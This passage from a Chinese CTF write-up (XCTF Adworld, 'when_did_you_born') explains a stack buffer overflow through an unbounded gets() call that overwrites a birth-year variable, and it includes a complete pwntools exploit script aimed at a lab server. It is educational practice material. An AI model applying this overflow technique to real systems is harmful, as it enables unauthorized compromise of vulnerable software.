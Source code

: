 ```python
print p.recv()
```

本地：

```shell
python exp.c 1
```

远程：

```
python exp.c 0
```

# 攻防世界: when_did_you_born

## **[目标]**

Variables overriding

## **[环境]**

Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 运行一下程序：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/when_did_you_born/pic/1.png)- 在ida中查看一下：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/when_did_you_born/pic/2.png)思路：可以看到 当生日是1926年的时候就会输出flag，但是程序对1926做了过滤，直接输入1926 程序就会结束。 同时，我们发现，v5和v4是在栈上的数据，接收name的gets函数不限制输入长度，于是 就可以在输入v4的时候覆盖掉之前我们输入的v5。那如何 判断 v4和v5 的相对位置呢？ ida在反汇编的伪代码中，标注了局部变量在栈中的位置，看红色箭头处，就能发现 v4和v5相差8个字节。这样我们就可以构造payload。

`payload = "A"*8 + p32(1926)` 

完整的exp:

```python
from pwn import *
# p = process("./when_did_you_born")
p = remote('10.10.49.194', 30149)
p.sendlineafter("Birth?\n",str(1998))
payload = "A"*8 + p32(1926)
p.sendlineafter("Name?\n",payload)
print p.recvall()
```

# 攻防世界: hello_pwn
